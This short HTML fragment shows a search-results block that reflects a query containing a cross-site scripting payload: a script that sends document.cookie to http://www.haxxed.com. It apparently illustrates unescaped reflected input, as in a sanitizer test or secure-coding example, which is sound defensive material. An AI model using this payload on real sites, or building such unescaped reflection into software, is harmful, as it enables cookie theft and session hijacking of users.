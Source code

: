 <div class="search-terms">
  Search results for "<script>
    window.location="http://www.haxxed.com?cookie="+document.cookie
  </script>"
</div>

<h6>No results found</h6>
